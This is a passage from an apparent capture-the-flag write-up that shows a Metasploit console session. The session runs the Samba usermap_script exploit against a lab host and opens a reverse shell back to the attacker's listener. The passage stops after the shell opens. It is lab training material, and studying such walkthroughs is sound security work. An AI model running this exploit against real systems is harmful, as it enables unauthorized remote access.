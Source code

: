 Let's go ahead and use it and see what the options are.  


```
msf5 > use exploit/multi/samba/usermap_script
 msf5 exploit(multi/samba/usermap_script) > options
 
 Module options (exploit/multi/samba/usermap_script):
 
 Name    Current Setting  Required  Description
 ----    ---------------  --------  -----------
 RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
 RPORT   139              yes       The target port (TCP)
 
 
 Exploit target:
 
 Id  Name
 --  ----
 0   Automatic
 
 
 msf5 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
 rhost => 10.10.10.3
 msf5 exploit(multi/samba/usermap_script) > run
 
 [*] Started reverse TCP double handler on 10.10.14.17:4444 
 [*] Accepted the first client connection...
 [*] Accepted the second client connection...
 [*] Command: echo uoDexrJBt0bwYHdC;
 [*] Writing to socket A
 [*] Writing to socket B
 [*] Reading from sockets...
 [*] Reading from socket B
 [*] B: "uoDexrJBt0bwYHdC\r\n"
 [*] Matching...
 [*] A is input...
 [*] Command shell session 1 opened (10.10.14.17:4444 -> 10.10.10.3:46751) at 2020-05-11 23:14:41 -0400
 
 
```

Holy Gaucammmoooellee. That was quick and easy. We didn't even have to enumerate the other ports. 


## Shell
So now we have some sort of shell. It's not perfect and it's kind of wonky. But we can test it out real quick. 
